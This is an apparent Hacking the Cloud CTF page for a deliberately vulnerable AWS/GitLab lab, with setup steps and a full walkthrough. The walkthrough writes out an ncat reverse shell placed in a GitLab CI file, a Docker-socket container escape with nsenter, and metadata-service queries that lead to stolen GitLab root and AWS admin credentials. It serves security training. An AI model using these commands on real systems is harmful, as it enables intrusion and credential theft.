










Link to Project: [CI/CDon't](https://github.com/Hacking-the-Cloud/htc-ctfs/tree/main/aws/cicdont)

!!! Note
    This project will deploy intentionally vulnerable software/infrastructure to your AWS account. Please ensure there is no sensitive or irrecoverable data in the account. Attempts have been made to mitigate this however they may not be fullproof; Security Group rules only allow access to the vulnerable EC2 instance from your public IP address, and a randomly generated password is required to access it.

!!! Warning
    If you intend to play the CTF it is a good idea to read through this page carefully to ensure you have all the details (minus the walkthrough). This page will familiarize the player with how the CTF works, what the objective is, and what the storyline is.

## Background

This is an AWS/GitLab CI/CD themed CTF that you can run in your own AWS account. All that is required is an AWS account and Terraform [installed](https://learn.hashicorp.com/tutorials/terraform/install-cli) locally on your machine.

Costs should be minimal; running this infrastructure in my own account for three hours didn't accrue a cent in the Billing Dashboard, however extended time frames may cause costs to add up.

In terms of difficulty, it would be rated low. The goal is more about having fun and working through some simple CI/CD/AWS challenges that even non-security folks would enjoy.

## How to Play

Clone this repository and navigate to the cicdont directory.

```
git clone https://github.com/Hacking-the-Cloud/htc-ctfs.git
cd htc-ctfs/aws/cicdont
```

To deploy the CTF environment run the Terraform init/apply command.

```
terraform init
terraform apply
```

You will be prompted with two questions. The first is a consent related to the costs of the CTF (Again, these should be minimal however the environment should still be taken down when you're finished with it). The second is asking your player name. Please do not use special characters in the name, only upper and lower case letters. This will be used in the game.

!!! Note
    It will take approximately 10 minutes for all the infrastructure to be deployed and ready. This 10 minute timer begins AFTER the Terraform apply has completed. This time is used to install all the software, create the NPCs, etc.

!!! Warning
    To be able to access the vulnerable instance, Terraform will attempt to determine your public IP address and create a security group that only that IP address can access. If you cannot access the target_ip (explained below) after 10 minutes, check the AWS console for a security group named `allow_http` and ensure that its configuration would allow you to reach it.

To destroy the CTF environment run the Terraform destroy command.

```
terraform destroy
```

This will again prompt you for the two questions. Please answer them and the infrastructure will be destroyed.

## The Important Bits

Once you've run terraform apply, you will receive 5 outputs. This will include the following:

* Player Username
* Player Password (randomly generated)
* Attackbox IP
* Target IP
* Time warning

The attackbox is an EC2 instance you can use for whatever purposes you deem fit. In particular you can use it to catch a reverse shell, or load your C2 platform of choice on it (you have sudo access via the password).

To access the attackbox, you can ssh using your player username and password.

```
ssh <player username>@<attackbox IP>
```

!!! Note
    When sshing with a player username, note that the username is case-sensitive.

It will take approximately 10 minutes for all the infrastructure to finish deploying. If you'd like to test if it's finished, you can navigate to `http://<target IP>/`. If it doesn't respond, or only shows a generic GitLab login page, then the CTF is not ready yet. If you see a message about SoftHouseIO, then everything is setup and ready.

!!! Note
    To be able to access the vulnerable instance, Terraform will attempt to determine your public IP address and create security group rules that only that IP address can access. If you cannot access the target instance after 10 minutes (likely shorter), check the AWS console for a security group named `allow_http` and ensure that it's configuration would allow you to reach it.

    These security group rules apply to both the target (GitLab) and the attackbox. Additionally, the rules are configured to allow the attackbox to receive incoming traffic from the target (to catch shells).

If you see any references to `gamemaster`, please ignore it. Those scripts are used to simulate the NPCs and have them complete their lore tasks. It is unrelated to the challenge.

## The Story

You are <player username\>, a developer at SoftHouseIO, an independent software development consultancy firm. While you like the company, you're thinking about making a little money on the side, perhaps through not entirely legal means. Can you say ransomware?

After planning your attack you figure the best place to get started is the company GitLab server at http://<target IP\>. Your username and password should you get you in. You'll want to gain access to administrative credentials for the AWS account the company uses.

## The Objective

Gain access to the `aws_admin_automation_user` through whatever means necessary (Note that this role has no permissions. It is simply the goal).

## Feedback

Want to provide feedback on the challenge? Open a new discussion on [GitHub](https://github.com/Hacking-the-Cloud/hackingthe.cloud/discussions/categories/ctf-discussion)

## Walkthrough

The following is a step by step walkthrough of the CTF. You can refer to this if you get stuck or simply just want to know what is next. Click the summary below to expand it.

??? Summary
    **Consent and Name**

    To begin the CTF we must first stand up all the infrastructure. We do this using Terraform.

    Download the challenge using git.
    ```
    git clone https://github.com/Hacking-the-Cloud/htc-ctfs.git
    cd htc-ctfs/aws/cicdont
    ```

    Initialize the project.
    ```
    terraform init
    ```

    Create the infrastructure.
    ```
    terraform apply
    ```

    We will be prompted first with a consent. Read through the question and answer with yes or no.

    After this, it will ask for a player name. Please only use lower and uppercase letters. No special characters or numbers.

    

    After this, you will be asked if you'd like to perform the deployment. Answer with "yes".

    The Terraform deployment will begin.

    **Wait**

    !!! Note
        You will now need to wait 10 minutes for the deployment to finish. The 10 minute timer starts **AFTER** you get the "Apply complete" notification.

    

    Does it really take 10 minutes? Yes, it takes a little bit to get everything setup. You can take this time to get familiar with your attackbox. This is an EC2 instance you can use for whatever you need during the CTF, particularly to catch shells.

    You can ssh into the box using your username and password

    ```
    ssh <player_username>@<target_ip>
    ```

    !!! Note
        The username is case-sensitive.

    **Getting Started**

    After waiting those 10 minutes, you finally have a target. You can navigate to the target_ip to see a GitLab instance. Log in using your player username and password.

    

    From here, you can navigate around, explore the various projects, and more. You might even notice a little notification in the upper right hand corner.

    

    Ashley has some work for us! Perhaps this will give us a hint for something we can exploit.

    Navigate to the mvp-docker project's Issues page.

    

    This is interesting for a few reasons. Most notably, Ashley wants some help with building a Docker container as a part of the CI/CD pipeline. She also mentions a [gitlab-ci.yml](https://docs.gitlab.com/ee/ci/yaml/gitlab_ci_yaml.html) file, which is the configuration for the [GitLab CI/CD](https://docs.gitlab.com/ee/ci/) pipeline.

    Building Docker images as a part of a CI/CD pipeline can have serious security implications and this is definitely worth looking into.

    Before we can get to that fun, let's take a look at that gitlab-ci.yml file. Navigate there and make some changes (you can edit the file through the web browser if you prefer or you can clone the project locally).

    

    After committing changes (via the web interface or otherwise) you can navigate to the `CI/CD` tab on the left to see the pipeline execute.

    Clicking on the status, and then the build job we can see the output.

    

    This can tell us a few things that are very useful to us as attackers. First, on line 3, we see that the CI/CD pipeline is using the "docker" executor, meaning everything executes inside a Docker container somewhere. On line 6, we see that it is using an Ubuntu Docker image. And lines 20+ show us that our input is executing in this environment.

    This looks like a fantastic place to start.

    **Getting a Reverse Shell**

    Our next step will be to get a shell in this environment. This is where our attackbox can come in.

    **Please note**: You are welcome to use your C2 platform of choice (If you'd like a recommendation, I'm a fan of [Mythic](https://github.com/its-a-feature/Mythic)). For this walkthrough I will use netcat for simplicity.

    SSH into your attack box and install a tool called `ncat`.

    

    Now, we can setup a listener (from the attackbox) with the following command.

    ```
    sudo ncat -l 443 --ssl -v
    ```

    We can now go back and edit the gitlab-ci.yml file to send a reverse shell. Using Ncat it's as easy as adding the following lines. From our previous foray we know this is an Ubuntu Docker container, and thus, we can use the [apt](https://en.wikipedia.org/wiki/APT_(software)) package manager.

    ```
    apt update
    apt install -y ncat
    ncat <attackbox_ip> 443 --ssl -e /bin/bash -v
    ```

    

    Now click "Commit changes" and watch that pipeline run.

    You are now the proud owner of a reverse shell inside this Docker container.

    

    **Docker Socket**

    From here, there are a number of things we could try to do. Your first instinct may be, "I'm on an EC2 instance, can I reach the metadata service?". That's a great idea! Unfortunately you can't.

    The bright folks over at SoftHouseIO use [IMDSv2](https://hackingthe.cloud/aws/general-knowledge/intro_metadata_service/#imdsv2), one of the benefits of which is that Docker containers cannot reach it by default.

    ```
    TTL of 1: The default configuration of IMDSv2 is to set the Time To Live (TTL) of the TCP packet containing the session token to "1". This ensures that misconfigured network appliances (firewalls, NAT devices, routers, etc.) will not forward the packet on. This also means that Docker containers using the default networking configuration (bridge mode) will not be able to reach the instance metadata service.
    ```

    That's a bummer. Other options? Try and pivot off this machine to something else in the VPC? Access a service exposed internally to the host (172.17.0.1)? Escape the container?

    That last one might get us somewhere. Ashley mentioned having some issues about building a Docker container in the pipeline. To do that, wouldn't they have to use something like [kaniko](https://cloud.google.com/blog/products/containers-kubernetes/introducing-kaniko-build-container-images-in-kubernetes-and-google-container-builder-even-without-root-access)? What if they just exposed the Docker socket instead?

    When a Docker socket is exposed inside a container, it can have dangerous consequences as an attacker can potentially escape the container and escalate privileges on the host.

    The common location for the socket is at `/var/run/docker.sock`, let's go look for it.

    

    There we go! They did mount the Docker socket! Let's use this to escape the container.

    **Escaping the Container**

    Note: There are many different ways you could abuse this to escape the container. I will walk through what I think is the simplest.

    First let's install two tools that will make things easier for ourselves.

    ```
    apt update
    apt install -y python3 docker.io
    ```

    Python3 will help us to spawn a `tty` and having the Docker binary will make it easier to interact with the Docker socket. We could alternatively use curl.

    With those two tools installed, let's spawn a `tty` with the classic Python [one-liner](https://netsec.ws/?p=337).


    ```
    python3 -c "import pty;pty.spawn('/bin/bash')"
    ```

    

    Doesn't that looks so much better? We have an actual shell prompt now. This will be useful for interacting with the Docker socket. Speaking of which, let's see which Docker containers are running on the host.

    ```
    docker ps
    ```

    This output lets us know that everything is working as intended. With access to the Docker socket, let's escape by creating a privileged Docker container (Note: There are a [number of options](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation) to do this).

    ```
    docker run -it --rm --pid=host --privileged ubuntu bash
    ```

    Now, inside our new privileged container, let's migrate to the namespace of a process running on the host.

    ```
    nsenter --target 1 --mount --uts --ipc --net --pid -- bash
    ```

    

    How fun is that?! We now have root on the underlying host and have escaped the container.

    **Escalating**

    With root on the host, we have a number of options for next steps. We can steal IAM credentials from the [metadata service](https://hackingthe.cloud/aws/general-knowledge/intro_metadata_service/), [brute force](https://hackingthe.cloud/aws/enumeration/brute_force_iam_permissions/) our IAM permissions, [enumerate roles](https://hackingthe.cloud/aws/enumeration/enum_iam_user_role/) in the account to find out what services are running in the account, attempt to [escalate IAM privileges](https://hackingthe.cloud/aws/exploitation/iam_privilege_escalation/), maybe try to [intercept the SSM agent](https://hackingthe.cloud/aws/post_exploitation/intercept_ssm_communications/) if it's running on the box? One place we should check before doing all that is the [user data](https://hackingthe.cloud/aws/general-knowledge/introduction_user_data/).

    User data is used to run commands when an EC2 instance is first started or after it is rebooted (with the right configuration). This can be very helpful to determine what software is installed on the machine, and it can also potentially be a source of credentials from developers who aren't very careful.

    Let's check this (remember we are using IMDSv2).

    ```
    TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
    curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data/
    ```

    

    On first glance it appears pretty standard; It installs GitLab, installs the GitLab runners, activates them, etc.

    There is a slight problem though, on the line where they installed GitLab, they accidentally leaked a credential. An important one at that. That is the credential to the root user of GitLab.

    This is bad news for SoftHouseIO and great news for us. Let's use this to log into the GitLab web UI as an administrator (username: root, password: <what's in the useradata\>)

    After exploring around for a little while, you may stumble into the the `infra-deployer` project. That sounds important.

    

    "Admin IAM Credentials are being stored in environment variables to be used with the GitLab runners". That sounds.....very interesting. The good news is that as an administrator, we can see those variables. Navigate to the `Settings` tab on the left and then click `CI/CD`. Next, click `Expand` on the `Variables` section.

    

    An Access Key and a Secret Access Key! Let's see who they belong to (you can also do this [without logging to CloudTrail](https://hackingthe.cloud/aws/enumeration/whoami/) if you were so inclined).

    ```
    export AWS_ACCESS_KEY_ID=AKIA....
    export AWS_SECRET_ACCESS_KEY=....
    aws sts get-caller-identity
    ```

    

    And with that we have achieved our objective! Congratulations on completing the CTF. Want to provide some feedback? Feel free to open a discussion on [GitHub](https://github.com/Hacking-the-Cloud/hackingthe.cloud/discussions/categories/ctf-discussion).


## Acknowledgements

These wonderful folks helped beta-test this CTF and provided feedback.

[Christophe Tafani-Dereeper](https://twitter.com/christophetd)  
[Jake Berkowsky](https://twitter.com/JBerkowsky)  
[Kaushik Pal](https://github.com/kaushik853)